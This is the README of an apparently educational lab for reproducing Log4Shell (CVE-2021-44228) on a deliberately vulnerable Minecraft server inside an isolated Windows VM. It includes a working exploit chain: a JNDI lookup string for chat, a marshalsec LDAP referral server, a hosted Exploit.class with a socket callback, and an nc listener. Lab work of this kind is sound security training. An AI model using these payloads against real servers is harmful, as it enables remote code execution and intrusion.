


# Log4Shell Minecraft Server Lab

This repository contains a lab environment to reproduce and analyze the Log4Shell (CVE-2021-44228) vulnerability on a Minecraft server running inside a Windows 10 virtual machine. The server also ships with the two intentionally-vulnerable [NTUST-CSIE-CAMP-vulnerable-plugins](https://github.com/WuSandWitch/NTUST-CSIE-CAMP-vulnerable-plugins) (`BlockReplacer`, `Teleport`), so the same map can be used to explore both the JVM/log4j-level exploit and Bukkit-plugin-level bugs.

## Prerequisites

Ensure you have the following installed on your host system:

- QEMU and KVM for virtualization
- genisoimage to build the installer ISO
- curl to download resources
- Maven and JDK to compile the exploit payloads
- A Windows 10 installation ISO (placed in the root directory as `Windows 10 Build 14393.iso`)

## Directory Structure

- `downloads/` holds downloaded Java and Minecraft server files, plus the vulnerable plugin jars under `downloads/plugins/`.
- `exploit/` contains the marshalsec LDAP reference server and the payload code.
- `scripts/` contains automation shell scripts to download resources, build ISOs, and run the VM.

## Setup Instructions

This is the main path: everything runs on a **single machine** and reproduces Log4Shell from the host itself. No host network configuration is required. If you instead want many computers on a LAN to reach the server, do this section first, then see [Multi-host LAN setup](#multi-host-lan-setup-advanced-optional).

### Download Resources

Run the script to fetch the OpenJDK ZIP for Windows, the Minecraft server, and the vulnerable plugin jars:

```bash
./scripts/download_resources.sh
```

The server jar is **Paper 1.18 build 63** rather than vanilla: vanilla Minecraft has no plugin loader at all (no `plugins/` folder, nothing reads jars dropped next to `server.jar`), and the NTUST plugins require Paper/Spigot. Build 63 is pinned because it's the last Paper 1.18 build before Paper backported the Log4Shell fix, so it still reproduces CVE-2021-44228 while also loading plugins.

### Build Installer ISO

Run the script to compile the staging files and build the installer ISO:

```bash
./scripts/build_installer_iso.sh
```

This builds `minecraft_installer.iso`, which contains a setup script configured to disable online mode verification, stage the two plugin jars into `C:\minecraft\plugins\`, and launch the server with vulnerable JNDI codebase lookup properties enabled.

### Run Virtual Machine

Start the Windows 10 VM inside QEMU:

```bash
./scripts/run_vm.sh
```

By default the script uses QEMU **user-mode networking**: the VM lives behind a private `10.0.2.0/24` NAT and the host forwards port 25565, so no host-side network setup is needed.

Install Windows 10 on the VM. Once installed, mount the `minecraft_installer.iso` CD-ROM drive, run the `setup_server.bat` file to install the Minecraft server and Java, and start the `run_server` script inside `C:\minecraft`.

### Build and Run Exploit

Compile the exploit package using Maven in the `exploit` folder:

```bash
cd exploit
mvn clean package -DskipTests
```

Setup something like this:



Trigger the exploit by entering the JNDI lookup string into the Minecraft chat:

```text
${jndi:ldap://<host-ip>:<ldap-port>/Exploit} // For me it's ${jndi:ldap://10.0.2.2:1389/Exploit}
```

Then you will see a calculator pop up!



### Exploiting the vulnerable plugins

`BlockReplacer` and `Teleport` load automatically from `C:\minecraft\plugins\` on server start. For the vulnerable commands and hidden parameters, see the [NTUST-CSIE-CAMP-vulnerable-plugins README](https://github.com/WuSandWitch/NTUST-CSIE-CAMP-vulnerable-plugins) directly rather than duplicating it here.

## Windows + VMware Workstation setup (alternative to QEMU)

Use this path instead of the QEMU one above if your host is Windows and you'd rather run the guest in VMware Workstation. It reuses the same `downloads/` and `Windows 10 Build 14393.iso`, but the ISO-staging step and VM itself work differently.

### Install Windows in a new VM

Create a VM in VMware Workstation and attach `Windows 10 Build 14393.iso` as the install media. Install Windows normally.

### Put the VM on a host-only network

In VM Settings -> Network Adapter, select **Host-only**. This uses VMware's `VMnet1` virtual network, which lets the host and guest talk to each other but gives the guest **no route to the internet** - so Windows Update never fires.

Check in VMware's Virtual Network Editor that `VMnet1` has both "Connect a host virtual adapter" and "Use local DHCP service" enabled (these are the defaults), so the guest gets an IP automatically. Find the host's own IP on that network with:

```powershell
ipconfig   # look for "VMware Network Adapter VMnet1"
```

`exploit/Exploit.java`'s callback address is hardcoded to that host IP - update it to match your machine if it differs (default in this repo is `192.168.48.1`).

### Build the installer ISO (Windows-native, no genisoimage)

`genisoimage` isn't available on Windows, so use the PowerShell equivalent instead, which builds the ISO with the built-in IMAPI2FS COM API (no extra tools needed):

```powershell
powershell -File scripts\build_installer_iso.ps1
```

This produces `minecraft_installer.iso`, staged the same way as the bash version: Java + the server jar + the plugin jars, plus a `setup_server.bat` that installs everything into `C:\minecraft` (including `C:\minecraft\plugins\`) with the vulnerable JNDI flags.

### Run the installer inside the guest

Attach `minecraft_installer.iso` as the VM's CD/DVD image (Removable Devices -> CD/DVD -> Settings -> Use ISO image file), then inside the guest run `setup_server.bat` from that drive, followed by `C:\minecraft\run_server.bat`.

### Reuse the finished VM

Once set up, the VM itself - not the installer ISO - is the reusable artifact. Export it (File -> Export to OVF) or just copy the VM's folder if you need to hand a ready-to-run environment to someone else, instead of re-running the installer from scratch.

## Multi-host LAN setup (optional)

Use this section only when you want **other computers on the same LAN** to connect to the server and each reproduce the exploit, with the result returning to their own machine.

### Why user-mode NAT is not enough

The default user-mode (`10.0.2.0/24`) networking cannot serve multiple LAN hosts: every forwarded client appears to the server as `10.0.2.2`, the VM has no direct route to individual LAN hosts, and SLIRP would also hand the VM an internet route (which triggers Windows Update). So for the multi-host case the VM is **bridged** directly onto the physical LAN instead.

### Bridge the VM onto the LAN (host, one time)

Create a bridge `br0` over the physical NIC (`eno1` here) with NetworkManager. The host keeps its own IP/DHCP via the bridge:

```bash
sudo nmcli connection add type bridge ifname br0 con-name br0 \
    ipv4.method auto ipv6.method ignore
sudo nmcli connection add type ethernet ifname eno1 master br0 con-name br0-eno1
sudo nmcli connection down "Wired connection 1"
sudo nmcli connection up br0
```

Allow QEMU's bridge helper to attach to it:

```bash
sudo mkdir -p /etc/qemu
echo 'allow br0' | sudo tee /etc/qemu/bridge.conf
sudo chmod u+s /usr/lib/qemu/qemu-bridge-helper   # if not already setuid
```

### Run the VM in bridge mode

```bash
NET_MODE=bridge ./scripts/run_vm.sh        # override the bridge name with BRIDGE=
```

### Give the VM a static, internet-less LAN address

In the Windows VM, set a static IPv4 address on the LAN subnet but leave the **gateway and DNS blank**:

- IP address: `192.168.1.200` (any free address on the LAN)
- Subnet mask: `255.255.255.0`
- Default gateway: _(leave empty)_
- DNS servers: _(leave empty)_

With no default gateway the VM cannot route off-subnet, it never reaches the internet and Windows Update never fires. LAN clients now join the server at `192.168.1.200:25565`.

### Each attacker runs their own toolkit (per-host callback)

Each LAN member runs their own toolkit, substituting their own LAN IP (`192.168.1.50` below):

1. Edit `exploit/Exploit.java`, set the callback host to your IP, recompile:
   ```java
   Socket socket = new Socket("192.168.1.50", 8080);
   ```
2. Serve the class: `python3 -m http.server 80` from the directory holding `Exploit.class`.
3. Run the LDAP referrer pointing at your own HTTP:
   ```bash
   java -cp exploit/target/marshalsec-0.0.3-SNAPSHOT-all.jar \
       marshalsec.jndi.LDAPRefServer "http://192.168.1.50/#Exploit" 1389
   ```
4. Listen for the callback: `nc -nvlkp 8080`.
5. In Minecraft chat: `${jndi:ldap://192.168.1.50:1389/Exploit}`.

### Restore the host afterwards

Shutdown everything first, then undo the bridge:

```bash
sudo nmcli connection down br0
sudo nmcli connection delete br0-eno1
sudo nmcli connection delete br0
sudo nmcli connection up "Wired connection 1"
```

Optionally remove the bridge-helper permission and config (harmless to leave):

```bash
sudo chmod u-s /usr/lib/qemu/qemu-bridge-helper
sudo rm -f /etc/qemu/bridge.conf
```
